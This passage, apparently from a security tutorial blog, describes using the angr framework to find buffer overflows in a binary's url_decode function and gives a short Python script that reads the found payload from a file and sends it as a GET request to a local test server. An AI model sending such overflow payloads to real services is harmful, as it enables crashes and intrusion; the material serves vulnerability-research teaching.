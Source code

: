 ```py
    logging.getLogger("angr").setLevel(logging.CRITICAL)

    main(args)

```

![](/assets/posts/2023-11-12-angr-full-binary/angr_found_overflows.bmp)

Upon running the script, Angr successfully identified multiple potential overflows. Specifically, Angr pinpointed a potential overflow within the url\_decode function, displaying the payload used to trigger it. To execute this overflow, the provided code allows for the payload to be sent as an HTTP GET request, effectively triggering the identified overflow.

```py
import requests
import re

url = "http://127.0.0.1:9999"

with open('output/overflow_0x401e4a.txt', 'r') as file:
    payload = None
    for line in file:
        if line.startswith("Payload: "):
            payload = line[len("Payload: "):].strip()
            break

# Send the payload as a GET request
response = requests.get(f"{url}/{payload}")

if response.status_code == 200:
    print("Request successful")
else:
    print(f"Request failed with status code: {response.status_code}")

```
